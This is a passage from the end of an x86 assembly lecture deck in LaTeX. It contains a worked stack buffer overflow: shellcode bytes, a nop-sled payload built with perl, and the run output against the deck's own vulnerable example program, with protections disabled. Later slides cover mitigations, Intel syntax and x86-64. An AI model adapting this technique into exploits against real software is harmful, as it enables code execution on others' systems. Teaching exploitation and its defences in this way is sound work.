$ ./example-21
Hello!$
\end{textcode*}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Hello Shellcode Take 2 (example-21.S) Disassembly}
\mvs
\begin{customobjdumpcode}
$ objdump -D example-21
Disassembly of section .text:
08048054 <_start>:
 8048054: eb 14                 jmp    804806a <get_str_addr>
08048056 <got_str_addr>:
 8048056: 59                    pop    %ecx
 8048057: 31 c0                 xor    %eax,%eax
 8048059: 31 db                 xor    %ebx,%ebx
 804805b: 31 d2                 xor    %edx,%edx
 804805d: 43                    inc    %ebx
 804805e: 04 04                 add    $0x4,%al
 8048060: 80 c2 06              add    $0x6,%dl
 8048063: cd 80                 int    $0x80
 8048065: 31 c0                 xor    %eax,%eax
 8048067: 40                    inc    %eax
 8048068: cd 80                 int    $0x80
0804806a <get_str_addr>:
 804806a: e8 e7 ff ff ff        call   8048056 <got_str_addr>
 804806f: 48                    dec    %eax
 8048070: 65                    gs
 8048071: 6c                    insb   (%dx),%es:(%edi)
 8048072: 6c                    insb   (%dx),%es:(%edi)
 8048073: 6f                    outsl  %ds:(%esi),(%dx)
 8048074: 21                    .byte 0x21
\end{customobjdumpcode}
\begin{itemize}
  \item No null bytes or newlines!
\end{itemize}
\end{frame}


\begin{frame}[fragile,t]
\frametitle{Preparing our Payload}
\begin{itemize}
  \item Reading off the {\ttfamily objdump} disassembly, we can write out the instructions as an ASCII string with escape characters
\end{itemize}
\begin{textcode}
"\xeb\x14\x59\x31\xc0\x31\xdb\x31\xd2\x43\x04\x04\x80\xc2\x06\xcd
\x80\x31\xc0\x40\xcd\x80\xe8\xe7\xff\xff\xff\x48\x65\x6c\x6c\x6f\x21"
\end{textcode}
\pause
\begin{itemize}
  \item So the plan is to pass a string to the insecure example with the shellcode, enough A's to overflow the buff, and a new return address
\pause
  \item But if the return address isn't exactly right, it won't work!
\pause
  \item We can make it more robust by adding a \textbf{nop-sled}: a bunch of nops preceding our shellcode
  \item Even if our guessed return address is off by a couple of bytes, as long as the CPU returns to somewhere within the nop-sled, execution will slide down to our real injected instructions
  \item Machine code for a {\ttfamily nop} is {\ttfamily 0x90}
\end{itemize}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{The Actual Exploit...}
\mvs
\begin{itemize}
  \item First, find out how many A's it takes to break it...
\end{itemize}
\begin{textcode}
$ perl -e 'print "A" x 107' | ./example-18
input:
$ perl -e 'print "A" x 108' | ./example-18
input:
Segmentation fault
$
\end{textcode}

\begin{itemize}
  \item Then, use gdb to find out the number of A's to start overwriting the return address...
\end{itemize}

\begin{textcode}
$ gdb example-18
...

<input 113 A's>
Program received signal SIGSEGV, Segmentation fault.
0x08040041 in ?? ()
\end{textcode}

\begin{itemize}
  \item Lower byte of return address, now \%eip, was overwritten by an 'A'.
\end{itemize}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{The Actual Exploit... Continued}
\mvs
\begin{textcode*}{textsize=\textsize{8}{8}}
Prepare small nop-sled, shellcode, A's, and return address that is
116 characters long.

$ perl -e 'print "\x90" x 20 . "\xeb\x14\x59\x31\xc0\x31\xdb\x31\xd2\x43
 \x04\x04\x80\xc2\x06\xcd\x80\x31\xc0\x40\xcd\x80\xe8\xe7\xff\xff\xff
 \x48\x65\x6c\x6c\x6f\x21" . "A" x 59 . "\x80\xf2\xff\xbf"' | wc
      0       1     116

Guess at the  return address, starting at 0xbffff280:
$ perl -e 'print "\x90" x 20 . "\xeb\x14\x59\x31\xc0\x31\xdb\x31\xd2\x43
 \x04\x04\x80\xc2\x06\xcd\x80\x31\xc0\x40\xcd\x80\xe8\xe7\xff\xff\xff
 \x48\x65\x6c\x6c\x6f\x21" . "A" x 59 . "\x80\xf2\xff\xbf"' | ./example-18
input:
Segmentation fault

$ perl -e 'print "\x90" x 20 . "\xeb\x14\x59\x31\xc0\x31\xdb\x31\xd2\x43
 \x04\x04\x80\xc2\x06\xcd\x80\x31\xc0\x40\xcd\x80\xe8\xe7\xff\xff\xff
 \x48\x65\x6c\x6c\x6f\x21" . "A" x 59 . "\x70\xf2\xff\xbf"' | ./example-18
input:
Illegal instruction

$ perl -e 'print "\x90" x 20 . "\xeb\x14\x59\x31\xc0\x31\xdb\x31\xd2\x43
 \x04\x04\x80\xc2\x06\xcd\x80\x31\xc0\x40\xcd\x80\xe8\xe7\xff\xff\xff
 \x48\x65\x6c\x6c\x6f\x21" . "A" x 59 . "\x60\xf2\xff\xbf"' | ./example-18
input:
Hello!$
\end{textcode*}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Closing Notes}
\begin{itemize}
  \item If vulnerable program was running as root, shellcode could spawn a root shell
  \item If vulnerable program was suid root, shellcode could setuid(0) and then spawn a root shell
  \pause
  \item We had to disable three security mechanisms to allow the traditional stack-based buffer overflow to work.
  \begin{itemize}
    \item GCC Stack Protector \\ (disabled with {\small \ttfamily -fno-stack-protector} gcc option)
    \item Non-Executable Stack \\ (disabled with {\small \ttfamily -z execstack} gcc option)
    \item Address Space Layout Randomization \\ (disabled by writing 0 to {\small \ttfamily /proc/sys/kernel/randomize\_va\_space})
  \end{itemize}
\end{itemize}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Security Mechanisms to Prevent Stack-based Buffer Overflows}
\begin{itemize}
  \item GCC Stack Protector
  \begin{itemize}
    \item GCC generates code to install a random guard value on the stack, below the saved frame pointer, and checks for its validity before the function returns
    \item If the guard value is corrupted by a buffer overflow, the pre-return check will catch it
  \end{itemize}
  \pause
  \item Non-Executable Stack
  \begin{itemize}
    \item NX page table entry bit introduced in x86-64 processors. Linux kernel uses them to mark the stack non-executable, so shellcode cannot execute from the stack
  \end{itemize}
  \pause
  \item Address Space Layout Randomization
  \begin{itemize}
    \item User program address space is randomized to make it difficult to guess shared library function locations or stack variable locations
    \item Increases difficulty of finding a suitable return address
  \end{itemize}
\end{itemize}
\end{frame}

\section{Advanced Topic 15: Comparisons with Atmel AVR and ARM Cortex-M3}

\section{Extra Topic 1: Intel/nasm Syntax}

\begin{frame}[fragile,t]
\frametitle{Differences}
\begin{itemize}
  \item Intel Syntax: {\ttfamily <mnemonic> <dest>, <src>}
  \item Less prefixes/suffixes floating around, so source looks cleaner
  \item Instruction size usually implied by registers used, but is made explicit when necessary with {\ttfamily byte, word, dword} keywords
  \begin{itemize}
    \item {\ttfamily mov [ebp-4], dword 42}
  \end{itemize}
  \pause
  \item Memory addresses are just plain symbol names
  \item Memory dereferenced with brackets {\ttfamily [ ... ]}
  \pause
  \vs
  \item Indirect memory acceses spelled out as expressions
  \item AT\&T / GAS: {\ttfamily movl \%eax, -12(\%ebp, \%ecx, 4)}
  \item Intel / NASM: {\ttfamily mov [ebp+ecx*4-12], eax}
\end{itemize}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Side-by-side Hello World Syscall Example (example-22.asm)}
\mvs \mvs
\begin{columns}[T]
\column{0.5\textwidth}
\begin{gascode*}{frame=single}
.section .text
.global _start
_start:
  # open("foo", ...);
  movl $0x05, %eax
  movl $filename, %ebx
  movl $0x41, %ecx
  movl $0644, %edx
  int $0x80

  # fd in %eax -> %ebx
  movl %eax, %ebx

  # write(fd, ...);
  movl $0x04, %eax
  # fd in %ebx from above
  movl $message, %ecx
  movl $messageLen, %edx
  int $0x80

  # close(fd);
  movl $0x06, %eax
  # fd still in %ebx
  int $0x80
\end{gascode*}
\column{0.5\textwidth}
\begin{nasmcode*}{frame=single}
section .text
global _start
_start:
  ; open("foo", ...);
  mov eax, 5
  mov ebx, filename
  mov ecx, 0x41
  mov edx, 0q644
  int 0x80

  ; fd in eax -> ebx
  mov ebx, eax

  ; write(fd, ...);
  mov eax, 4
  ; fd in ebx from above
  mov ecx, message
  mov edx, messageLen
  int 0x80

  ; close(fd);
  mov eax, 6
  ; fd still in ebx
  int 0x80
\end{nasmcode*}
\end{columns}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Side-by-side Hello World Syscall Example (example-22.asm) Continued}
\mvs
\begin{columns}[T]
\column{0.5\textwidth}
\begin{gascode*}{frame=single}
  # exit(0);
  movl $0x01, %eax
  movl $0x0, %ebx
  int $0x80

.section .data
filename:   .ascii "foo\0"
message:    .ascii "Hello World!\n"
.equ messageLen, . - message
\end{gascode*}
\column{0.5\textwidth}
\begin{nasmcode*}{frame=single}
  ; exit(0);
  mov eax, 1
  mov ebx, 0
  int 0x80

section .data
filename:   db 'foo',0
message:    db 'Hello World!',10,0
messageLen: equ $ - message
\end{nasmcode*}
\end{columns}
\vs
{\footnotesize Runtime:}
\begin{textcode}
$ nasm -f elf example-22.asm -o example-22.o
$ ld example-22.o -o example-22
$ ./example-22
$ cat foo
Hello World!
$
\end{textcode}
\end{frame}

\section{Extra Topic 2: x86-64 Assembly}

\begin{frame}[fragile,t]
\frametitle{Immediate Differences}
\begin{itemize}
  \item {\ttfamily \%eax} extended to 64-bit {\ttfamily \%rax} \\
  {\ttfamily \%rax, \%rbx, \%rcx, \%rdx, \%rbp, \%rsp, \%rsi, \%rdi}
  \item Supplemental general purpose registers \\
  {\ttfamily \%r8, \%r9, \%r10, \%r11, \%r12, \%r13, \%r14, \%r15}
  \vs \vs
  \item Good architectural changes
  \begin{itemize}
    \item Segmentation and hardware task switching wiped away
    \item No-Execute bit in page table entries
  \end{itemize}
  \vs
  \item A lot of q's instead of l's: {\ttfamily movq, pushq, addq}
  \item Stack pushes and pops are all typically 8-byte / 64-bit values
  \item {\small \url{http://en.wikipedia.org/wiki/X86-64#Architectural\_features}}
\end{itemize}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Different Calling Convention}
\begin{itemize}
  \item System V ABI
  \item \url{http://www.x86-64.org/documentation/abi.pdf}
  \item Function Call Convention (Linux)
  \begin{itemize}
    \item Arguments passed in registers: {\ttfamily \%rdi, \%rsi, \%rdx, \%rcx, \%r8, \%r9}
    \item Extra arguments pushed onto the stack
    \item Function must preserve {\ttfamily \%rbp, \%rbx, \%r12 - \%r15}
    \item Function can use rest of registers
    \item Return value in {\%rax}
  \end{itemize}
  \item System Call Convention (Linux)
  \begin{itemize}
    \item Syscall number in {\ttfamily \%rax}
    \item Arguments passed in registers: {\ttfamily \%rdi, \%rsi, \%rdx, \%r10, \%r8, \%r9}
    \item Use {\ttfamily syscall} instruction
    \item {\ttfamily \%rcx} and {\ttfamily \%r11} destroyed
    \item Return value in {\%rax}
  \end{itemize}
\end{itemize}
\end{frame}

\section{Resources and Next Steps}

\begin{frame}[fragile,t]
\frametitle{Essential Links}
\begin{itemize}
  \item x86-32 + x86-64 instruction set: \\ \url{http://siyobik.info/main/reference}
  \item Official x86-32 + x86-64 architecture info: \\ \url{http://www.intel.com/content/www/us/en/processors/architectures-software-developer-manuals.html}
  \item Unofficial x86-32 + x86-64 architecture info: \\ \url{http://sandpile.org/}
  \item Linux System Call Reference: \\ \url{http://syscalls.kernelgrok.com/}
  \item Assembly Optimization Tips: \\ \url{http://www.mark.masmcode.com/}
  \item Interesting "assembly gems": \\ \url{http://www.df.lth.se/~john\_e/fr\_gems.html}
\end{itemize}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Going From Here}
\begin{itemize}
  \item Play with the examples
  \item Write your own syscall, e.g. rot13
  \item Do Stack Smashing challenges: \\ \url{http://community.corest.com/~gera/InsecureProgramming/}
  \item Rewrite a traditional *nix program in Assembly
  \item e.g. telnet: \\ {\small \url{https://github.com/vsergeev/x86asm/blob/master/telnet.asm}}
  \item e.g. asmscan: \\ {\small \url{https://github.com/edma2/asmscan}}
  \item Write assembly for microcontrollers like Atmel AVR and ARM
\end{itemize}
\end{frame}

\section*{Questions?}

\end{document}
